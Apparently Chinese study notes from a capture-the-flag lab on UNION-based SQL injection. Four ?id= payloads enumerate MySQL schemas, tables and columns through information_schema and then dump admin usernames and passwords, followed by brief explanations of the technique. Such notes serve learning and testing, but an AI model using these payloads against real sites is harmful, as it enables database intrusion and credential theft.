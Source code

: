 # sql 注入：
https://www.cnblogs.com/nmlwh/p/14724551.html

 1 暴库：（information_schema,ctftraining,mysql,performance_schema,test,news）
 2 ?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata
 3 
 4 暴表：（admin,contents）
 5 ?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema="news"
 6 
 7 暴字段：（id,username,password）
 8 ?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name="admin"
 9 
10 暴密码：
11 ?id=-1 UNION SELECT 1,concat(username,0x3a,password) from admin

----
information_schema 是一个mysql的最重要库，包含很多信息。
SELECT 1占位，为了填充到两格子
-1 是为了不让搜索的占位
## schema ->tables -> columns
table_schema :隶属哪个库
table_name：隶属哪张表